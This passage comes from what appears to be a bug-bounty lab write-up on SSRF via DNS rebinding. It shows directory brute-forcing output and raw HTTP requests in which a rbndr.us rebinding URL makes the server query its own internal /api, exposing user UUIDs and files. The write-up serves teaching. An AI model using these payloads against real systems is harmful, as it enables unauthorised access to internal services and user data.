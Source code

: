 <figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

#### Brute Forcing Files and Directories

Seeing a glimmer of hope, I started brute forcing files and directories using a common wordlist:

[Common Wordlist](https://github.com/v0re/dirb/blob/master/wordlists/common.txt)

To streamline the brute forcing process, I wrote a Python script to automate the attempts:

{% embed url="https://github.com/h0tak88r/bug-bounty-labs/blob/main/ssrf-with-dns-rebinding-lab/poc/poc.py" %}

```sh
➜  poc git:(main) ✗ python3 poc.py                           
2024-07-27 12:09:50,638 - INFO - / -> 200
2024-07-27 12:12:07,478 - INFO - /api -> 200
```

Requesting the `/api` endpoint revealed the following directories:

```http
POST /api/v2/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Cookie: uuid_hash=<>
Content-Type: application/json

{"file_url":"http://7f000001.d83ad3ce.rbndr.us//api"}

-------------------------------------------------
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Sat, 27 Jul 2024 09:15:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 29
/users
/status
/employees
```

#### Extracting Sensitive Information

Requesting `/api/users` returned all registered user UUIDs. I used one of these UUIDs to retrieve user files:

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Remember this Request ?

```http
POST /api/v3/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/json
Content-Length: 52
{"user_uuid":"05262283-b53e-4410-8793-21c7eef6ed19"}
```
